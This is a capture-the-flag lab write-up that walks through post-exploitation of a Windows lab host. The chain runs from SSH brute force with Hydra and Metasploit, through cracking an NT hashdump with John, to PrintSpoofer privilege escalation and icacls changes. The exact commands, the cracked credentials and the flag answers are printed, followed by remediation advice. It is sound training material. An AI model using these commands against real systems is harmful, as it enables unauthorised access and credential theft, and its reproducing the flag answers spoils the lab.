# CTF Report: Post-Exploitation II

**Classification:** Host & Network Penetration Testing / Post-Exploitation<br>
**Target:** target.ine.local (10.2.21.94) — Windows, OpenSSH<br>
**Tools provided:** `unix_passwords.txt`, `PrintSpoofer.exe`<br>
**Objective:** Capture four flags.

## 1. Executive Summary

The Windows target exposes OpenSSH. We brute-force **alice** (flag 1), loot a `hashdump.txt`
and crack it to recover **david** (flag 2), upgrade to Meterpreter, then abuse
`SeImpersonatePrivilege` with **PrintSpoofer** to get SYSTEM. The final flags are in protected
directories, with `icacls` used to grant SYSTEM read access to the Administrator folder.

## 2. Flag 1 — SSH Brute-Force (alice)

```bash
ping -c 4 target.ine.local
db_nmap -sV 10.2.21.94
hydra -l alice -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://10.2.21.94:22
# alice:princess1
```







```bash
use auxiliary/scanner/ssh/ssh_login      # alice:princess1
```



```
Flag 1: 598c7a570f954559a10773722c797caf
```



## 3. Flag 2 — Crack hashdump → david

```bash
download hashdump.txt
cat hashdump.txt
```





```bash
john --format=NT hashdump.txt
# david:orange | alice:princess1
```



```bash
ssh david@10.2.21.94      # orange
```



```
Flag 2: 4d48f314867a4124960ad642481a6bb8
```



## 4. Flags 3 & 4 — PrintSpoofer → SYSTEM

Upgrading david's session to Meterpreter and uploading PrintSpoofer.



```cmd
upload PrintSpoofer64.exe
PrintSpoofer64.exe -i -c cmd        # abuses SeImpersonatePrivilege -> SYSTEM
```



With SYSTEM, flag 3 is in `C:\Windows\System32\config`; flag 4 is in the Administrator's home,
which denies access until `icacls` grants `NT AUTHORITY\SYSTEM` read/execute.

```cmd
type C:\Windows\System32\config\flag3.txt
icacls "C:\Users\Administrator\<flag folder>" /grant "NT AUTHORITY\SYSTEM:(OI)(CI)RX"
type C:\Users\Administrator\...\flag4.txt
```

```
Flag 3: 45345d38185d4ff0972ea3ffea9479f0
Flag 4: f7044cbebac641fda65bef714cee6e65
```



## 5. Remediation Recommendations

1. **Enforce strong passwords & lockout** — alice/david fell to wordlists; don't leave NTLM
   hashdumps on disk.
2. **Remove `SeImpersonatePrivilege`** from service accounts that don't need it (PrintSpoofer
   relies on it) and patch the host.
3. **Protect the SAM/LSASS** and restrict `icacls`/ACL changes; monitor for privilege abuse.
4. **Least privilege** and keep secrets out of user-readable locations.
